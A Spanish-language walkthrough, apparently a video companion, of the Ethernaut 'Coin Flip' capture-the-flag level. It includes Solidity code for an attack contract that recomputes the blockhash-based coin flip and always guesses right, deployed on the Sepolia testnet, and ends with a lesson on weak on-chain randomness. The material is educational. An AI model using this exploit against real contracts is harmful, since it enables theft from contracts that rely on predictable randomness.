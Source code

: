 # Coin Flip

> Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=rAgEkEax7ec">
    <img src="https://img.youtube.com/vi/rAgEkEax7ec/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p>

El **objetivo es adivinar el resultado correcto diez veces seguidas**. Ahora, obtenemos una nueva instancia del contrato confirmando la transacción en nuestra billetera de _MetaMask_. Mientras se despliega, copiamos el código del contrato y lo pegamos en **Remix**.

## Análisis

Cómo el objetivo es conseguir diez aciertos consecutivos, nos fijamos en la variable `consecutiveWins`, que se establece a cero en el `constructor` y después se incrementa en la función `flip()`. Es decir, se suma uno cuándo el valor que introducimos nosotros y el valor que se ha generado es el mismo.

Para solucionar este reto, vamos a copiar esta parte de código **que se encarga de crear el valor que queremos adivinar** y vamos a crear otro contrato que llamará a la función `flip()` **10 veces con el mismo valor**. De esta manera siempre acertaremos.

## Ataque

En el mismo fichero, vamos a crear un nuevo contrato llamado `CoinFlipAttack` y declaramos la dirección del contrato que queremos atacar:

```solidity
contract CoinFlipAttack {
	CoinFlip private immutable target;
}
```

Después, estableceremos esta dirección en el `constructor`.

```solidity
	constructor(address _target) {
			target = CoinFlip(_target);
			}
```

Para obtener el número correcto, vamos a copiar todo el código que calcula este número y lo pegamos en una función nueva:

```solidity
function _guess() private view returns (bool) {
		uint256 blockValue = uint256(blockhash(block.number - 1));
		uint256 coinFlip = blockValue / FACTOR;
		bool side = coinFlip == 1 ? true : false;
		return side;
}
```

También tenemos que copiar la variable `FACTOR` a nuestro contrato para que funcione el cálculo.

```solidity
 uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

Ahora vamos a declarar la función `flip()` que vamos a llamar diez veces. De esta forma, estamos llamando a la función `flip()` del contrato original **pasándole como parámetro el número correcto**. Además, nos aseguraremos de que el número es el correcto para no perder la racha.

```solidity
function flip() external {
		bool guess = _guess();
		require(target.flip(guess), "fail");
}
```

Cuándo llamemos a esta función `flip()`, **se calculará el número correcto en ambos contratos**, ya que tienen **la misma lógica así que siempre acertaremos**.

## Uso

Una vez hayamos terminado de programar nuestro contrato de ataque, **lo compilamos** para comprobar que está bien. En la sección de despliegue, seleccionamos el entorno de _MetaMask_ en la red de _Sepolia_ y el contrato. Este _Smart Contract_ necesita recibir la dirección del objetivo así que **pegamos la dirección de la instancia de este contrato** y lo desplegamos confirmando la transacción.

Antes de llamar a la función `flip()` 10 veces, vamos a cargar el contrato original para ver el progreso. Seleccionamos el contrato original y pegamos la dirección en _At Address_ para poder interactuar con él desde **Remix**. De esta manera, podemos ver cuántos aciertos consecutivos llevamos, que de momento es **cero**.

Ahora sí, en el contrato de ataque, llamamos a la función `flip()` y confirmamos la transacción. Una vez se haya confirmado, consultamos los aciertos y si hemos hecho todo bien, ha cambiado a uno!. Entonces llamamos a esta función 10 veces…

Finalmente, llevamos una racha de 11 y es momento de entregar este nivel de **Ethernaut**!

Cómo nos dice Ethernaut, generar números aleatorios en _Solidity_ **es complicado**, porque todo en un _Smart Contract_ es público e **incluso los mineros podrían manipular el resultado final** si se basa en el _Hash_ del bloque o su _Timestamp_.
